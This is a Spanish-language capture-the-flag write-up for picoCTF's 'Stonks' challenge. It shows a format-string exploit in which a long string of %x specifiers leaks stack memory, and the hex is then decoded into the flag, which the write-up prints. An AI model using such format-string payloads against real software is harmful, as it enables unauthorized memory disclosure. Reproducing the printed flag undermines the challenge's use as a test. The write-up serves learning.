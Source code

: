 ## Descripción
I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/7e71fc0d8cc3339bfad6bf408f7dc510/vuln.c) `nc mercury.picoctf.net 6989`

## Solución
Accedemos al programa, seleccionamos la primera opción y aprovecharemos de la vulnerabilidad string formatting.

Ya que el método buy_stonks(Portfolio p), no contiene maneras seguras de manejar strings, podemos hacer que este nos retorne cadenas hexadecimales que pueden contener la bandera.

Una vez obtenida la cadena y convertida a ASCII, notamos que hay una cadena similar a la bandera, pero invertida.

ocip{FTC0l_I4_t5m_ll0m_y_y3n58a025e3ÿ¡ }

Extraemos el hex equivalente utilizando cyberchef:
6f 63 69 70 7b 46 54 43 30 6c 5f 49 34 5f 74 35 6d 5f 6c 6c 30 6d 5f 79 5f 79 33 6e 35 38 61 30 32 35 65 33 ff a1 0a

Aplicamos swap endianness:
70 69 63 6f 43 54 46 7b 49 5f 6c 30 35 74 5f 34 6c 6c 5f 6d 79 5f 6d 30 6e 33 79 5f 30 61 38 35 33 65 35 32 00 0a a1 ff

De hex a ACII:
picoCTF{I_l05t_4ll_my_m0n3y_0a853e52 
¡ÿ

Corregimos:
picoCTF{I_l05t_4ll_my_m0n3y_0a853e52}

```bash
alberto@Nova:~/Descargas$ nc mercury.picoctf.net 6989
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
Buying stonks with token:
8d5a430804b00080489c3f7f72d80ffffffff18d58160f7f80110f7f72dc708d5918018d5a4108d5a4306f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e3538613032356533ffa1007df7fadaf8f7f80440104130010f7e0fce9f7f810c0f7f725c0f7f72000ffa182f8f7e0068df7f725c08048ecaffa183040f7f94f09804b000f7f72000f7f72e20ffa18338f7f9ad50f7f738901041300f7f72000804b000ffa183388048c868d58160ffa18324ffa183388048be9f7f723fc0ffa183ecffa183e4118d581601041300ffa1835000f7db5fa1f7f72000f7f720000
Portfolio as of Wed May 31 03:24:03 UTC 2023
```


## Notas Adicionales
|comando|descripcion|
|---|---|
|xx|xx|

## Referencias
- [Endianness](https://en.wikipedia.org/wiki/Endianness)
